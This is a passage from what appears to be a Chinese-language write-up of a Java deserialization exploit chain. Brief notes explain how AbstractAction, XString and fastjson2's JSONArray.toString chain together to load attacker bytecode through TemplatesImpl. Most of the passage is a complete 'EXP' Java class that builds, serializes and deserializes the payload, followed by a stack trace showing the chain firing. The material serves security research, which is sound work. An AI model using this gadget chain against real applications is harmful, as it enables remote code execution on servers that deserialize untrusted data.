

就是这里的32改成31即可

判断出已存在key1，这样才不会让oldValue的XString被覆盖掉，然后oldValue XString和newValue为jsonArray 才能够一起传入了firePropertyChange函数

但是这里还有一个if条件

当changeSupport !=null时，会往后执行

所以我们就需要反射修改changeSupport



最后调用JSONArray.toString触发后续链子



EXP

```
/**
 * @className Exp
 * @Author shushu
 * @Data 2025/7/17
 **/
package org.example.demo.Utils;
import javax.swing.AbstractAction;
import com.alibaba.fastjson2.JSONArray;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.noear.solon.core.BeanWrap;

import javax.naming.spi.ObjectFactory;
import javax.swing.event.SwingPropertyChangeSupport;
import javax.swing.text.StyledEditorKit;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import com.alibaba.fastjson2.JSONObject;

public class Exp {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Repository.lookupClass(TestTemplatesImpl.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_tfactory", null);
        Map map = new HashMap();
        map.put("object", templates);
        Object node2 = makeGadget("com.alibaba.fastjson2.JSONObject", Map.class,map);
        Proxy proxy1 = (Proxy) Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),
                new Class[]{ObjectFactory.class, MyObject.class}, (InvocationHandler) node2);

        Object node3 = makeGadget("org.example.demo.Utils.MyProxy",MyObject.class,proxy1);
        Proxy proxy2 = (Proxy) Proxy.newProxyInstance(Proxy.class.getClassLoader(),
                new Class[]{Templates.class}, (InvocationHandler) node3);
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(proxy2);
//        serializeToFile(testGadget(jsonArray1));
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("TransformedMapTest.bin"));
        ois.readObject();
    }
    public static void serializeToFile(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("TransformedMapTest.bin"));
        oos.writeObject(obj);
    }
    public static Object testGadget(Object gadgetChain) throws Exception {

        SwingPropertyChangeSupport swingPropertyChangeSupport = new SwingPropertyChangeSupport("11");
        StyledEditorKit.AlignmentAction alignmentAction = new StyledEditorKit.AlignmentAction("111",1);

        Field field = Class.forName("javax.swing.AbstractAction").getDeclaredField("changeSupport");
        field.setAccessible(true);
        field.set(alignmentAction,swingPropertyChangeSupport);
        XString xString = new XString("1");
        alignmentAction.putValue("key1",xString);
        alignmentAction.putValue("key2",gadgetChain);
        return alignmentAction;
    }
    public static Object makeGadget(String className,Class parType,Object gadget) throws Exception {

        Class clazz = Class.forName(className);
        Constructor constructor = clazz.getDeclaredConstructor(parType);
        constructor.setAccessible(true);
        return constructor.newInstance(gadget);
    }
    public static Map makeXStringToStringTrigger(Object o) throws Exception {
        XString x = new XString("
");

        return makeMap(o, x);
    }
    public static Map makeMap(Object v1, Object v2) throws Exception {
        Map map1 = new HashMap();
        map1.put("yy", v1);
        map1.put("zZ", v2);

        Map map2 = new HashMap();
        map2.put("yy", v2);
        map2.put("zZ", v1);


        HashMap s = new HashMap();
        setFieldValue(s, "size", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, map1, map1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, map2, map2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    public static byte[] serialize(final Object obj) throws IOException {
        System.out.println("serialize obj:  "+ obj.getClass().getName());
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
        return out.toByteArray();
    }

    public static Object deserialize(byte[] ser) throws IOException, ClassNotFoundException {
        System.out.println("deserialize obj");
        final ByteArrayInputStream in = new ByteArrayInputStream(ser);
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
}

```

调用栈如下

```
 invoke:292, AutowireUtils$ObjectFactoryDelegatingInvocationHandler 			(org.springframework.beans.factory.support)
   getOutputProperties:-1, $Proxy2 (com.sun.proxy)
    at com.alibaba.fastjson2.writer.OWG_1_1_$Proxy2.write(Unknown Source)
    at com.alibaba.fastjson2.JSONWriterUTF16.write(JSONWriterUTF16.java:2835)
    at com.alibaba.fastjson2.JSONArray.toString(JSONArray.java:1052)
    at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
    at javax.swing.AbstractAction.firePropertyChange(AbstractAction.java:273)
    at javax.swing.AbstractAction.putValue(AbstractAction.java:211)
    at javax.swing.AbstractAction.readObject(AbstractAction.java:364)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:498)
    at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
    at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
    at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
    at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
    at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
    at org.example.demo.Utils.Exp.main(Exp.java:45)
```
